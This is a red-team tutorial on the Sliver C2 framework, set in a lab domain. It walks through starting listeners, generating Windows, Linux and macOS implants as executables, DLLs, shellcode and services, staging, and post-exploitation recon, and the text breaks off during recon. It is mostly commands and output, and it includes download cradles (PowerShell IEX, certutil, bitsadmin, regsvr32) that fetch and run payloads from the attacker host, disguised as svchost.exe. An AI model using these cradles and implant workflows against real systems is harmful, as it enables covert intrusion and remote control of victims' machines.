








## What is Sliver?

**Sliver** is an open-source, cross-platform adversary emulation and red team framework developed by **BishopFox**. It is designed as a modern alternative to commercial C2 frameworks like Cobalt Strike, providing red team operators with the tools needed for realistic adversary simulation.

### Why Sliver?

| Feature | Sliver | Cobalt Strike |
|---------|--------|---------------|
| **Cost** | Free & Open Source | $5,900/year |
| **Implant Languages** | Go (cross-platform) | Java + C (Windows-focused) |
| **Platform Support** | Windows, Linux, macOS | Primarily Windows |
| **Protocol Support** | mTLS, WireGuard, HTTP(S), DNS | HTTP(S), DNS, SMB |
| **Multiplayer** | Built-in multi-operator | Built-in team server |
| **Extensibility** | BOFs, .NET assemblies, COFF loader, extensions | BOFs, Aggressor scripts |
| **Detection Rate** | Lower (newer, less signatures) | Higher (heavily signatured) |
| **Community** | Growing rapidly | Mature, extensive |
| **Source Available** | Yes (GitHub) | No (closed source) |

> Sliver is used by real APT groups, red teams, and penetration testers worldwide. It was notably observed being used by threat actors in the wild, which speaks to its effectiveness as a C2 framework.
{: .prompt-info }

---

## Architecture Overview



### Beacon vs Session



| Feature | Session | Beacon |
|---------|---------|--------|
| **Connection** | Persistent, real-time | Periodic check-in |
| **Latency** | Instant | Depends on interval |
| **Stealth** | Lower (constant connection) | Higher (periodic traffic) |
| **Use Case** | Active exploitation, pivoting | Long-term access, stealth |
| **Detection Risk** | Higher | Lower |
| **Protocol Support** | mTLS, WireGuard, HTTP(S), DNS | mTLS, WireGuard, HTTP(S), DNS |
| **Recommended For** | Initial access, lateral movement | Persistence, stealth ops |

---

## Lab Environment

```text
Infrastructure:
  Sliver Server:     attack-server      (10.10.10.100) — Kali/Ubuntu
  Redirector:        redirector01       (45.33.22.11) — VPS (optional)

Target Network:
  Domain:            corp.local
  DC:                DC01.corp.local    (192.168.1.10)
  Web Server:        WEB01.corp.local   (192.168.1.20)
  Workstation:       WS01.corp.local    (192.168.1.50)  — Windows 10
  Linux Server:      LIN01.corp.local   (192.168.1.30)  — Ubuntu 22.04

Credentials:
  - j.smith / Password123!   (Domain User on WS01)
  - s.admin / Admin!@#456    (Domain Admin)
  - svc_backup / Backup2024! (Service Account)
```

---

## Installation & Setup

### Installing Sliver Server

```bash
# ============================================================
# Method 1: One-liner install (recommended)
# ============================================================
curl https://sliver.sh/install | sudo bash
```

**Expected Output:**

```text
⠋ Downloading Sliver server binary ...
✅ Sliver server binary downloaded
⠋ Installing Sliver server ...
✅ Sliver server installed to /root/sliver-server
⠋ Checking if systemd is available ...
✅ Systemd is available
⠋ Installing Sliver as a systemd service ...
✅ Sliver service installed
⠋ Generating operator config ...
✅ Operator config generated

  Sliver has been installed successfully!

  To start the server:
    sudo systemctl start sliver

  To use Sliver:
    sliver

  Server Version: v1.5.42
```

```bash
# ============================================================
# Method 2: Manual install from GitHub releases
# ============================================================
# Download latest release
wget https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux -O /usr/local/bin/sliver-server
chmod +x /usr/local/bin/sliver-server

# Download client
wget https://github.com/BishopFox/sliver/releases/latest/download/sliver-client_linux -O /usr/local/bin/sliver
chmod +x /usr/local/bin/sliver
```

```bash
# ============================================================
# Method 3: Docker install
# ============================================================
docker run -d \
  --name sliver-server \
  -p 31337:31337 \
  -p 443:443 \
  -p 80:80 \
  -p 8888:8888 \
  -p 53:53/udp \
  -v ~/.sliver:/root/.sliver \
  bishopfox/sliver
```

### Starting the Server

```bash
# Start Sliver server as a service
sudo systemctl start sliver
sudo systemctl enable sliver
sudo systemctl status sliver
```

**Expected Output:**

```text
● sliver.service - Sliver C2 Server
     Loaded: loaded (/etc/systemd/system/sliver.service; enabled)
     Active: active (running) since Sat 2024-02-10 10:00:00 UTC; 5s ago
   Main PID: 12345 (sliver-server)
      Tasks: 12 (limit: 4915)
     Memory: 45.2M
        CPU: 1.234s
     CGroup: /system.slice/sliver.service
             └─12345 /root/sliver-server daemon

Feb 10 10:00:00 attack-server systemd[1]: Started Sliver C2 Server.
Feb 10 10:00:00 attack-server sliver-server[12345]: INFO[0000] Welcome to the sliver shell
```

```bash
# Start Sliver interactive console
sliver
```

**Expected Output:**

```text
    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain mass
[*] Server v1.5.42 - f1a2b3c4d5e6f7890123456789abcdef
[*] Welcome to the sliver shell, please type 'help' for options

[server] sliver >
```

### Multi-Operator Setup

```bash
# Generate operator config for a team member
# Run on the Sliver server:
[server] sliver > new-operator --name operator1 --lhost 10.10.10.100
```

**Expected Output:**

```text
[*] Generating new client certificate, please wait ...
[*] Saved new client config to /root/operator1_10.10.10.100.cfg
```

```bash
# Transfer the config file to the operator's machine
# On the operator's machine:
scp root@10.10.10.100:/root/operator1_10.10.10.100.cfg ~/.sliver-client/configs/

# Connect as operator
sliver import ./operator1_10.10.10.100.cfg
sliver
```

**Expected Output:**

```text
[*] Imported operator config operator1_10.10.10.100.cfg
[*] Connected to Sliver server (10.10.10.100:31337)

[server] sliver >
```

---

## Listeners — Setting Up Communication Channels

Listeners are what implants connect back to. Sliver supports multiple protocols.

### Starting Listeners

```bash
# ============================================================
# mTLS Listener (most reliable, encrypted)
# ============================================================
[server] sliver > mtls --lhost 10.10.10.100 --lport 8888
```

**Expected Output:**

```text
[*] Starting mTLS listener ...
[*] Successfully started job #1 (mTLS 10.10.10.100:8888)
```

```bash
# ============================================================
# HTTPS Listener (best for egress — blends with web traffic)
# ============================================================
[server] sliver > https --lhost 10.10.10.100 --lport 443 --domain cdn-update.corp-services.com
```

**Expected Output:**

```text
[*] Starting HTTPS listener ...
[*] Successfully started job #2 (HTTPS 10.10.10.100:443)
[*] Using self-signed certificate for cdn-update.corp-services.com
```

```bash
# ============================================================
# HTTP Listener (fallback if HTTPS is not possible)
# ============================================================
[server] sliver > http --lhost 10.10.10.100 --lport 80
```

**Expected Output:**

```text
[*] Starting HTTP listener ...
[*] Successfully started job #3 (HTTP 10.10.10.100:80)
```

```bash
# ============================================================
# DNS Listener (slowest but most covert)
# ============================================================
[server] sliver > dns --domains updates.corp-services.com --lport 53
```

**Expected Output:**

```text
[*] Starting DNS listener ...
[*] Successfully started job #4 (DNS updates.corp-services.com:53)
[*] Ensure DNS records are configured:
    NS record: updates.corp-services.com -> 10.10.10.100
```

```bash
# ============================================================
# WireGuard Listener (VPN-based, stealthy)
# ============================================================
[server] sliver > wg --lport 53 --nport 8888 --key-port 1337
```

**Expected Output:**

```text
[*] Starting WireGuard listener ...
[*] Successfully started job #5 (WireGuard 10.10.10.100:53)
```

```bash
# ============================================================
# View all active listeners (jobs)
# ============================================================
[server] sliver > jobs
```

**Expected Output:**

```text
 ID   Name    Protocol   Port    Stage Profile
 ==   ====    ========   ====    =============
 1    mtls    tcp        8888
 2    https   tcp        443
 3    http    tcp        80
 4    dns     udp        53
 5    wg      udp        53
```

```bash
# Kill a specific listener
[server] sliver > jobs --kill 3
```

**Expected Output:**

```text
[*] Killing job #3 ...
[*] Successfully killed job #3
```

### Listener Selection Guide



---

## Implant Generation

Sliver generates implants (called **beacons** or **sessions**) as compiled Go binaries.

### Generating Implants — All Options

```bash
# ============================================================
# BEACON — Asynchronous (Recommended for operations)
# ============================================================

# Windows beacon (EXE) — mTLS
[server] sliver > generate beacon --mtls 10.10.10.100:8888 \
  --os windows --arch amd64 \
  --format exe \
  --seconds 30 --jitter 3 \
  --save /tmp/implants/beacon_mtls.exe
```

**Expected Output:**

```text
[*] Generating new windows/amd64 beacon implant binary (30s)
[*] Symbol obfuscation is enabled
[*] Build completed in 1m22s
[*] Implant saved to /tmp/implants/beacon_mtls.exe (12.5 MB)
```

```bash
# Windows beacon (EXE) — HTTPS
[server] sliver > generate beacon --http 10.10.10.100:443 \
  --os windows --arch amd64 \
  --format exe \
  --seconds 60 --jitter 10 \
  --save /tmp/implants/beacon_https.exe
```

**Expected Output:**

```text
[*] Generating new windows/amd64 beacon implant binary (60s)
[*] Symbol obfuscation is enabled
[*] Build completed in 1m35s
[*] Implant saved to /tmp/implants/beacon_https.exe (12.8 MB)
```

```bash
# Windows beacon — DNS
[server] sliver > generate beacon --dns updates.corp-services.com \
  --os windows --arch amd64 \
  --format exe \
  --seconds 120 --jitter 30 \
  --save /tmp/implants/beacon_dns.exe
```

**Expected Output:**

```text
[*] Generating new windows/amd64 beacon implant binary (120s)
[*] Symbol obfuscation is enabled
[*] Build completed in 1m28s
[*] Implant saved to /tmp/implants/beacon_dns.exe (12.6 MB)
```

```bash
# ============================================================
# SESSION — Interactive (Real-time control)
# ============================================================

# Windows session (EXE) — mTLS
[server] sliver > generate --mtls 10.10.10.100:8888 \
  --os windows --arch amd64 \
  --format exe \
  --save /tmp/implants/session_mtls.exe
```

**Expected Output:**

```text
[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 1m18s
[*] Implant saved to /tmp/implants/session_mtls.exe (11.9 MB)
```

```bash
# ============================================================
# SHARED LIBRARY (DLL) — For DLL sideloading / injection
# ============================================================
[server] sliver > generate beacon --mtls 10.10.10.100:8888 \
  --os windows --arch amd64 \
  --format shared \
  --seconds 30 --jitter 5 \
  --save /tmp/implants/beacon.dll
```

**Expected Output:**

```text
[*] Generating new windows/amd64 beacon implant shared library (30s)
[*] Symbol obfuscation is enabled
[*] Build completed in 1m42s
[*] Implant saved to /tmp/implants/beacon.dll (13.1 MB)
```

```bash
# ============================================================
# SHELLCODE — For injection into other processes
# ============================================================
[server] sliver > generate beacon --mtls 10.10.10.100:8888 \
  --os windows --arch amd64 \
  --format shellcode \
  --seconds 30 --jitter 5 \
  --save /tmp/implants/beacon.bin
```

**Expected Output:**

```text
[*] Generating new windows/amd64 beacon implant shellcode (30s)
[*] Symbol obfuscation is enabled
[*] Build completed in 1m38s
[*] Implant saved to /tmp/implants/beacon.bin (11.2 MB)
```

```bash
# ============================================================
# LINUX Implant
# ============================================================
[server] sliver > generate beacon --mtls 10.10.10.100:8888 \
  --os linux --arch amd64 \
  --format exe \
  --seconds 60 --jitter 10 \
  --save /tmp/implants/beacon_linux
```

**Expected Output:**

```text
[*] Generating new linux/amd64 beacon implant binary (60s)
[*] Symbol obfuscation is enabled
[*] Build completed in 1m15s
[*] Implant saved to /tmp/implants/beacon_linux (12.1 MB)
```

```bash
# ============================================================
# macOS Implant
# ============================================================
[server] sliver > generate beacon --mtls 10.10.10.100:8888 \
  --os darwin --arch amd64 \
  --format exe \
  --seconds 60 --jitter 10 \
  --save /tmp/implants/beacon_macos
```

**Expected Output:**

```text
[*] Generating new darwin/amd64 beacon implant binary (60s)
[*] Symbol obfuscation is enabled
[*] Build completed in 1m20s
[*] Implant saved to /tmp/implants/beacon_macos (12.3 MB)
```

```bash
# ============================================================
# SERVICE — Windows service binary (for persistence)
# ============================================================
[server] sliver > generate beacon --mtls 10.10.10.100:8888 \
  --os windows --arch amd64 \
  --format service \
  --seconds 30 --jitter 5 \
  --save /tmp/implants/beacon_svc.exe
```

**Expected Output:**

```text
[*] Generating new windows/amd64 beacon implant service binary (30s)
[*] Symbol obfuscation is enabled
[*] Build completed in 1m25s
[*] Implant saved to /tmp/implants/beacon_svc.exe (12.7 MB)
```

```bash
# ============================================================
# View all generated implants
# ============================================================
[server] sliver > implants
```

**Expected Output:**

```text
 Name                    OS        Arch     Format      Command & Control          Debug
 ====                    ==        ====     ======      =================          =====
 AWFUL_GARDEN            windows   amd64    EXECUTABLE  [1] mtls://10.10.10.100    false
 BRIGHT_PENGUIN          windows   amd64    EXECUTABLE  [1] https://10.10.10.100   false
 COLD_RIVER              windows   amd64    SHARED_LIB  [1] mtls://10.10.10.100    false
 DARK_MOUNTAIN           windows   amd64    SHELLCODE   [1] mtls://10.10.10.100    false
 ELEGANT_FALCON          linux     amd64    EXECUTABLE  [1] mtls://10.10.10.100    false
 FANCY_DRAGON            darwin    amd64    EXECUTABLE  [1] mtls://10.10.10.100    false
 GENTLE_HORSE            windows   amd64    SERVICE     [1] mtls://10.10.10.100    false
```

### Implant Generation Options Reference

```bash
# Full list of generation options
[server] sliver > generate beacon --help
```

| Option | Description | Example |
|--------|-------------|---------|
| `--mtls` | mTLS C2 endpoint | `--mtls 10.10.10.100:8888` |
| `--http` | HTTP(S) C2 endpoint | `--http 10.10.10.100:443` |
| `--dns` | DNS C2 domain | `--dns updates.example.com` |
| `--wg` | WireGuard C2 endpoint | `--wg 10.10.10.100:53` |
| `--os` | Target OS | `windows`, `linux`, `darwin` |
| `--arch` | Architecture | `amd64`, `386`, `arm64` |
| `--format` | Output format | `exe`, `shared`, `shellcode`, `service` |
| `--seconds` | Beacon interval (seconds) | `--seconds 60` |
| `--jitter` | Jitter (seconds) | `--jitter 10` |
| `--name` | Custom implant name | `--name my-implant` |
| `--debug` | Enable debug mode | `--debug` |
| `--evasion` | Enable evasion features | `--evasion` |
| `--skip-symbols` | Skip symbol obfuscation | `--skip-symbols` |
| `--disable-sgn` | Disable SGN encoding (shellcode) | `--disable-sgn` |
| `--save` | Save path | `--save /tmp/beacon.exe` |
| `--run-at-load` | Execute on DLL load | `--run-at-load` (shared libs) |
| `--limit-datetime` | Kill date | `--limit-datetime 2024-12-31` |
| `--limit-domainjoined` | Only run on domain-joined | `--limit-domainjoined` |
| `--limit-hostname` | Only run on specific host | `--limit-hostname WS01` |
| `--limit-username` | Only run as specific user | `--limit-username j.smith` |

---

## Staging & Delivery

### Stagers — Lightweight First-Stage Payloads

```bash
# ============================================================
# Generate stager profile
# ============================================================
[server] sliver > profiles new beacon --mtls 10.10.10.100:8888 \
  --os windows --arch amd64 --format shellcode \
  --seconds 30 --jitter 5 \
  --name stage-profile
```

**Expected Output:**

```text
[*] Saved new implant profile (beacon) stage-profile
```

```bash
# Start a staging listener
[server] sliver > stage-listener --url http://10.10.10.100:8080/font.woff \
  --profile stage-profile
```

**Expected Output:**

```text
[*] No builds found for profile stage-profile, generating a new one
[*] Job 6 (http) started
[*] Sliver stage  listener started on http://10.10.10.100:8080/font.woff
```

```bash
# Generate lightweight stager (any loader that fetches and executes shellcode)
# Example: msfvenom stager that downloads Sliver shellcode
msfvenom -p windows/x64/custom/reverse_https LHOST=10.10.10.100 LPORT=8080 LURI=/font.woff -f exe -o stager.exe
```

### MSF Stager Integration

```bash
# Generate MSF-compatible stager shellcode
[server] sliver > generate stager --lhost 10.10.10.100 --lport 8443 \
  --protocol http --arch amd64 --save /tmp/stager.bin
```

**Expected Output:**

```text
[*] Sliver stager saved to: /tmp/stager.bin (510 bytes)
```

### Delivery Methods



```powershell
# ============================================================
# Download Cradles (execute on target)
# ============================================================

# PowerShell — Download and execute
powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.100:8080/stager.ps1')"

# PowerShell — Download to disk and run
Invoke-WebRequest -Uri http://10.10.10.100:8080/beacon.exe -OutFile C:\Users\Public\svchost.exe; Start-Process C:\Users\Public\svchost.exe

# Certutil
certutil -urlcache -split -f http://10.10.10.100:8080/beacon.exe C:\Users\Public\svchost.exe && C:\Users\Public\svchost.exe

# Bitsadmin
bitsadmin /transfer job /download /priority high http://10.10.10.100:8080/beacon.exe C:\Users\Public\svchost.exe && C:\Users\Public\svchost.exe

# RunDLL32 (for DLL implants)
rundll32.exe beacon.dll,StartW

# Regsvr32 (for DLL implants)
regsvr32 /s /n /u /i:http://10.10.10.100:8080/file.sct scrobj.dll
```

---

## Managing Implants — Sessions & Beacons

### When Implants Connect

```bash
# When a beacon checks in:
```

**Expected Output (server notification):**

```text
[*] Beacon 8c2f4e1a AWFUL_GARDEN - 192.168.1.50:49872 (WS01) - windows/amd64 - Sat, 10 Feb 2024 12:00:00 UTC

[server] sliver >
```

```bash
# When a session connects:
```

**Expected Output:**

```text
[*] Session 3a7b9c1d BRIGHT_PENGUIN - 192.168.1.50:49873 (WS01) - windows/amd64 - Sat, 10 Feb 2024 12:00:05 UTC

[server] sliver >
```

### Listing and Interacting with Implants

```bash
# ============================================================
# List all active beacons
# ============================================================
[server] sliver > beacons
```

**Expected Output:**

```text
 ID         Name            Transport   Hostname   Username          OS/Arch          Last Check-In              Next Check-In
 ========   =============   =========   ========   ==============    ==============   ========================   =========================
 8c2f4e1a   AWFUL_GARDEN    mtls        WS01       CORP\j.smith      windows/amd64    Sat, 10 Feb 2024 12:00     Sat, 10 Feb 2024 12:00:30
 a1b2c3d4   ELEGANT_FALCON  https       LIN01      root              linux/amd64      Sat, 10 Feb 2024 12:01     Sat, 10 Feb 2024 12:02:00
```

```bash
# ============================================================
# List all active sessions
# ============================================================
[server] sliver > sessions
```

**Expected Output:**

```text
 ID         Name             Transport   Remote Address       Hostname   Username          OS/Arch          Health
 ========   ==============   =========   ==================   ========   ==============    ==============   =======
 3a7b9c1d   BRIGHT_PENGUIN   mtls        192.168.1.50:49873   WS01       CORP\j.smith      windows/amd64    [ALIVE]
```

```bash
# ============================================================
# Interact with a beacon
# ============================================================
[server] sliver > use 8c2f4e1a
```

**Expected Output:**

```text
[*] Active beacon AWFUL_GARDEN (8c2f4e1a-...)

[server] sliver (AWFUL_GARDEN) >
```

```bash
# Interact with a session
[server] sliver > use 3a7b9c1d
```

**Expected Output:**

```text
[*] Active session BRIGHT_PENGUIN (3a7b9c1d-...)

[server] sliver (BRIGHT_PENGUIN) >
```

```bash
# ============================================================
# Switch beacon to interactive session
# ============================================================
[server] sliver (AWFUL_GARDEN) > interactive
```

**Expected Output:**

```text
[*] Using beacon's active C2 endpoint: mtls://10.10.10.100:8888
[*] Tasked beacon AWFUL_GARDEN (8c2f4e1a)
[*] Session 5e6f7890 AWFUL_GARDEN - 192.168.1.50:49880 (WS01) - windows/amd64

[server] sliver (AWFUL_GARDEN) >
```

```bash
# ============================================================
# Rename an implant
# ============================================================
[server] sliver > rename --name TARGET-WS01 --beacon 8c2f4e1a
```

**Expected Output:**

```text
[*] Beacon 8c2f4e1a renamed to TARGET-WS01
```

```bash
# ============================================================
# Change beacon interval
# ============================================================
[server] sliver (TARGET-WS01) > reconfig --beacon-interval 10s --jitter 2s
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 reconfigured: interval=10s, jitter=2s
```

---

## Post-Exploitation — Situational Awareness

### System Information

```bash
# ============================================================
# Basic system info
# ============================================================
[server] sliver (TARGET-WS01) > info
```

**Expected Output:**

```text
        Beacon ID: 8c2f4e1a-1234-5678-9abc-def012345678
             Name: TARGET-WS01
         Hostname: WS01
             UUID: abcdef12-3456-7890-abcd-ef1234567890
         Username: CORP\j.smith
              UID: S-1-5-21-1234567890-1234567890-1234567890-1105
              GID: S-1-5-21-1234567890-1234567890-1234567890-513
              PID: 7832
               OS: windows
          Version: 10.0.19045 Build 19045
            Arch:  amd64
       Active C2:  mtls://10.10.10.100:8888
    Is Privileged: false
  Reconnect Interval: 30s
         Jitter:  3s
    First Contact: Sat, 10 Feb 2024 12:00:00 UTC
     Last Checkin: Sat, 10 Feb 2024 12:05:30 UTC
```

```bash
# ============================================================
# Whoami
# ============================================================
[server] sliver (TARGET-WS01) > whoami
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

Logon ID: CORP\j.smith
[*] Not running as SYSTEM
[*] Current Integrity Level: Medium
```

```bash
# ============================================================
# Process listing
# ============================================================
[server] sliver (TARGET-WS01) > ps
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

 PID     PPID    Owner                  Arch     EXE                             Session
 ===     ====    =====                  ====     ===                             =======
 0       0       [System Process]       x64                                      0
 4       0       NT AUTHORITY\SYSTEM    x64      System                          0
 88      4       NT AUTHORITY\SYSTEM    x64      Registry                        0
 440     4       NT AUTHORITY\SYSTEM    x64      smss.exe                        0
 548     440     NT AUTHORITY\SYSTEM    x64      csrss.exe                       0
 620     548     NT AUTHORITY\SYSTEM    x64      wininit.exe                     0
 672     620     NT AUTHORITY\SYSTEM    x64      services.exe                    0
 692     620     NT AUTHORITY\SYSTEM    x64      lsass.exe                       0
 784     672     NT AUTHORITY\SYSTEM    x64      svchost.exe                     0
 1234    672     NT AUTHORITY\SYSTEM    x64      MsMpEng.exe                     0
 3456    3400    CORP\j.smith           x64      explorer.exe                    1
 4567    3456    CORP\j.smith           x64      msedge.exe                      1
 7832    3456    CORP\j.smith           x64      beacon_mtls.exe                 1
```

```bash
# ============================================================
# Network connections
# ============================================================
[server] sliver (TARGET-WS01) > netstat
```

**Expected Output:**

```text
[*] Tasked beacon TARGET-WS01 (8c2f4e1a)
[+] TARGET-WS01 returned:

 Protocol   Local Address          Foreign Address         State         PID/Program
 ========   =============          ===============         =====         ===========
 tcp        0.0.0.0:135            0.0.0.0:0               LISTENING     892/svchost.exe
 tcp        0.0.0.0:445            0.0.0.0:0               LISTENING     4/System
 tcp        192.168.1.50:49873     10.10.10.100:8888        ESTABLISHED   7832/beacon_mtls.exe
 tcp        192.168.1.50:49880     192.168.1.10:389         ESTABLISHED   692/lsass.exe
